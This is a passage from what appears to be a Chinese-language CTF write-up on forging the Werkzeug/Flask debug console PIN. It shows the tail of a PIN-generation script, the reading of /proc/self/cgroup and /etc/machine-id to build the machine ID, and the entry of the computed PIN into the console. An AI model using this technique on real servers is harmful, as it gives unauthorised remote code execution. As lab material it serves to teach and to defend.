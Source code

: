 ```py
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)

```

这里我们需要机器码，我们先访问**/proc/self/cgroup**

得到

```
d1b9d0725f0d084e96c039bb557a13646b2c418388ed006646ab107f3c435778
```

然后再访问**/etc/machine-id或者/proc/sys/kernel/random/boot_id**

```
225374fa-04bc-4346-9f39-48fa82829ca9
```

拼接一下得到机器码

```
225374fa-04bc-4346-9f39-48fa82829ca9d1b9d0725f0d084e96c039bb557a13646b2c418388ed006646ab107f3c435778
```

我们到脚里修改机器码，运行得到pin值

![](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412012007621.png)

我们访问console，将密码填进去

![image-20241201200825063](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412012008128.png)
